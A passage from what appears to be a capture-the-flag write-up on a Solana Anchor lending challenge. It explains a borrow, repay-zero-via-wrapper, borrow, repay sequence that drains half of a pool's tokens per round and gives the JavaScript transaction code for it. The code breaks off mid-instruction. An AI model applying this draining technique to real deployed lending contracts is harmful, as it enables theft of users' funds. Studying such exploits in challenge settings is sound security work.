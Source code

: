 Now we can construct our transaction with instructions that will borrow,
repay 0 through our program, borrow again, and then repay once. This
lets us steal half of the tokens from the pool deposit token account. We
can repeat until the pool deposit token account only has one token
remaining.

```
// Borrow 50
program.instruction.borrow(new BN(50), {
    accounts: {
        player: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        pool: new anchor.web3.PublicKey(accounts.pool),
        poolAccount: new anchor.web3.PublicKey(accounts.poolAccount),
        depositorAccount: playerAtom,
        instructions: anchor.web3.SYSVAR_INSTRUCTIONS_PUBKEY,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),
// Repay 0
wrapperProgram.instruction.repay({
    accounts: {
        player: player.publicKey,
        user: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        pool: new anchor.web3.PublicKey(accounts.pool),
        poolAccount: new anchor.web3.PublicKey(accounts.poolAccount),
        depositorAccount: playerAtom,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
        challenge3Program: new anchor.web3.PublicKey(accounts.programId),
    }
}),
// Borrow 50
program.instruction.borrow(new BN(50), {
    accounts: {
        player: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        pool: new anchor.web3.PublicKey(accounts.pool),
        poolAccount: new anchor.web3.PublicKey(accounts.poolAccount),
        depositorAccount: playerAtom,
        instructions: anchor.web3.SYSVAR_INSTRUCTIONS_PUBKEY,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),
// Repay 50
program.instruction.repay(new BN(50), {
    accounts: {
        player: player.publicKey,
        user: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        pool: new anchor.web3.PublicKey(accounts.pool),
        poolAccount: new anchor.web3.PublicKey(accounts.poolAccount),
        depositorAccount: playerAtom,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),

// Repay 14
// Make the number of tokens in the pool deposit token account a power of 2 (i.e., 64)
program.instruction.repay(new BN(14), {
    accounts: {
        player: player.publicKey,
        user: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
```